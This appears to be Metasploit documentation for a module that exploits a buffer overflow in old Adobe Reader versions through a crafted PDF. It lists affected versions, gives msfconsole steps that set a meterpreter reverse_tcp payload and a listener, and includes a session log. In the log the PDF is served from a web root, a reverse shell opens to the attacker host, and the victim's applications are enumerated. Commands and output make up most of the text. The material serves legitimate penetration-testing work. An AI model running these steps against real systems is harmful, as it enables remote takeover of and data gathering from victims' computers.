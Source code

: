 ## Vulnerable Application

This module exploits a buffer overflow in Adobe Reader and Adobe Acrobat. Affected versions include < 7.1.1, < 8.1.3, and < 9.1.
By creating a specially crafted pdf that a contains malformed `Collab.getIcon()` call, an attacker may be able to execute arbitrary code.

Link to vulnerable software [OldVersion](http://www.oldversion.com/windows/download/acrobat-reader-8-0-0)

### Test results (on Windows XP SP3)

  * reader 7.0.5 - no trigger
  * reader 7.0.8 - no trigger
  * reader 7.0.9 - no trigger
  * reader 7.1.0 - no trigger
  * reader 7.1.1 - reported not vulnerable
  * reader 8.0.0 - works
  * reader 8.1.2 - works
  * reader 8.1.3 - reported not vulnerable
  * reader 9.0.0 - works
  * reader 9.1.0 - reported not vulnerable

## Options

### FILENAME

  The file name

## Verification Steps

   1. Install application on the target machine
   2. Start msfconsole
   3. Do: ```use exploit/windows/fileformat/adobe_geticon```
   4. Do: ```set payload [windows/meterpreter/reverse_tcp]```
   5. Do: ```set LHOST [IP]```
   6. Do: ```exploit```
   7. Do: ```use exploit/multi/handler```
   8. Do: ```set LHOST [IP]```
   9. Do: ```exploit```
   10. Do: Open PDF on target machine with vulnerable software

## Scenarios

### Adobe Reader 8.0.0 on Windows XP (5.1 Build 2600, Service Pack 3)

  ```
  msf > use exploit/windows/fileformat/adobe_geticon
  msf exploit(windows/fileformat/adobe_geticon) > set FILENAME icon.pdf
    FILENAME => icon.pdf
  msf exploit(windows/fileformat/adobe_geticon) > exploit

    [*] Creating 'icon.pdf' file...
    [+] icon.pdf stored at /root/.msf4/local/icon.pdf
  msf exploit(windows/fileformat/adobe_geticon) > cp /root/.msf4/local/icon.pdf /var/www/html/icon.pdf
    [*] exec: cp /root/.msf4/local/icon.pdf /var/www/html/icon.pdf

  msf payload(windows/meterpreter/reverse_tcp) > use exploit/multi/handler
  msf exploit(multi/handler) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(multi/handler) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] Sending stage (180291 bytes) to 192.168.1.5
    [*] Meterpreter session 3 opened (192.168.1.3:4444 -> 192.168.1.5:1160) at 2019-12-06 14:40:10 -0700

  meterpreter > sysinfo
    Computer        : COMPUTER_1
    OS              : Windows XP (5.1 Build 2600, Service Pack 3).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: COMPUTER_1\USER
  meterpreter > run post/windows/gather/enum_applications

    [*] Enumerating applications installed on COMPUTER_1

    Installed Applications
    ======================

     Name            Version
     ----            -------
     Adobe Reader 8  8.0.0


    [+] Results stored in: /root/.msf4/loot/20191206144654_default_192.168.1.5_host.application_162364.txt
  ```
